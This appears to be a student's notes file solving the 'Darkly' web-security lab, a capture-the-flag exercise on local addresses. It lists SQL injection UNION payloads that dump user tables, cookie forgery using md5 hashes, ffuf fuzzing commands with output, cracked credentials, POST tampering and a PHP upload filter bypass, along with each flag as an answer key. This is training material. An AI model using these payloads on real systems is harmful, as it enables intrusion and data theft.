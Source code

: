 #+TITLE: Temp
*  Login page :

Recover password - webmaster@borntosec.com
~flag - 1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0~

La balise est cachee, si on supprime le contenu du form et qu'on submit, le flag nous est donne

* Cookies :
Cookies - I_am_admin 68934a3e9455fa72420237eb05902327
hashid 68934a3e9455fa72420237eb05902327
Le hash est en md5 est veut dire false

echo true | md5
74d9a83219cabaab06a69fd318873f335

Remplacons le cookie

* Search image :

ffuf -w payload.txt:FUZZ -u "http://192.168.56.103/?page=searchimg&id=FUZZ&Submit=Submit#" -fs 2410
5 UNION SELECT table_schema,table_name FROM information_schema.columns
5 UNION SELECT table_name,column_name FROM information_schema.columns
5 UNION SELECT title,comment FROM list_images
echo 'albatroz' | sha2
~flag - fe0ca5dd7978ae1baae2c1c19d49fbfbb37fe7905b9ad386cbbb8206c8422de6~

* Search users :
for ((i=0;i<1000;i++)) ; do echo $i >> payload.txt; done
ffuf -w payload.txt:FUZZ -u "http://192.168.56.103/?page=member&id=FUZZ&Submit=Submit#" -fs 2462
1 OR 1
5 UNION SELECT database(),2
5 UNION SELECT table_schema,table_name FROM information_schema.columns
5 UNION SELECT table_name,column_name FROM information_schema.columns
5 UNION SELECT user_id,planet FROM users
5 UNION SELECT user_id,countersign FROM users
5 UNION SELECT user_id,commentaire FROM users
echo 'fortytwo' | sha2
~flag - 3b4e8a30ecbfde518f50f2bda1912b40338ecd71821faeb1e9cdf44cefff95f5~

* Source page :
?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c

* Login :
5 UNION SELECT username,password FROM Member_Brute_Force.db_default
admin - shadow
~flag - b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2~

* Fuzzing :
ffuf -w common.txt:FUZZ -u http://192.168.56.105:80/FUZZ -fs 6892
url/whatever - htpasswd http://192.168.56.102/whatever/htpasswdd
root:8621ffdbc5698829397d97767ac13db3 - dragon
go to url/admin
~flag - d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff~

url/robots.txt
url/.hidden

* Member survey :

modifier les parametres post dans le browser en mettant 42
~flag - 03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa~

* Feedback :
~flag - 0fbb54bbf7d099713ca4be297e1bc7da0173d8b3c21c1811b916a3a86652724e~
* Hidden directory :
crawl le directory avec crawl.sh
~flag - 99dde1d35d1fdd283924d84e6d9f1d820~

* Upload image :
Upload un fichier .php, remplacer le content type de la requete par image/jpeg
~flag - 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8~

λ ~/gitlab/darkly/ main* ffuf -w ~/tmp/directory-list-2.3-medium.txt -u 'http://192.168.56.102/FUZZ'

 :: Method           : GET
 :: URL              : http://192.168.56.102/FUZZ
 :: Wordlist         : FUZZ: /Users/paure/tmp/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

#                       [Status: 200, Size: 6892, Words: 616, Lines: 130]
# directory-list-2.3-medium.txt [Status: 200, Size: 6892, Words: 616, Lines: 130]
                        [Status: 200, Size: 6892, Words: 616, Lines: 130]
# Attribution-Share Alike 3.0 License. To view a copy of this [Status: 200, Size: 6892, Words: 616, Lines: 130]
#                       [Status: 200, Size: 6892, Words: 616, Lines: 130]
images                  [Status: 301, Size: 184, Words: 6, Lines: 8]
# Copyright 2007 James Fisher [Status: 200, Size: 6892, Words: 616, Lines: 130]
# or send a letter to Creative Commons, 171 Second Street, [Status: 200, Size: 6892, Words: 616, Lines: 130]
# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 6892, Words: 616, Lines: 130]
#                       [Status: 200, Size: 6892, Words: 616, Lines: 130]
admin                   [Status: 301, Size: 184, Words: 6, Lines: 8]
# Priority ordered case-sensitive list, where entries were found [Status: 200, Size: 6892, Words: 616, Lines: 130]
#                       [Status: 200, Size: 6892, Words: 616, Lines: 130]
# on at least 2 different hosts [Status: 200, Size: 6892, Words: 616, Lines: 130]
audio                   [Status: 301, Size: 184, Words: 6, Lines: 8]
css                     [Status: 301, Size: 184, Words: 6, Lines: 8]
includes                [Status: 301, Size: 184, Words: 6, Lines: 8]
js                      [Status: 301, Size: 184, Words: 6, Lines: 8]
# This work is licensed under the Creative Commons [Status: 200, Size: 6892, Words: 616, Lines: 130]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/ [Status: 200, Size: 6892, Words: 616, Lines: 130]
fonts                   [Status: 301, Size: 184, Words: 6, Lines: 8]
errors                  [Status: 301, Size: 184, Words: 6, Lines: 8]
whatever                [Status: 301, Size: 184, Words: 6, Lines: 8]
                        [Status: 200, Size: 6892, Words: 616, Lines: 130]
:: Progress: [220560/220560] :: Job [1/1] :: 2313 req/sec :: Duration: [0:00:51] :: Errors: 0 ::
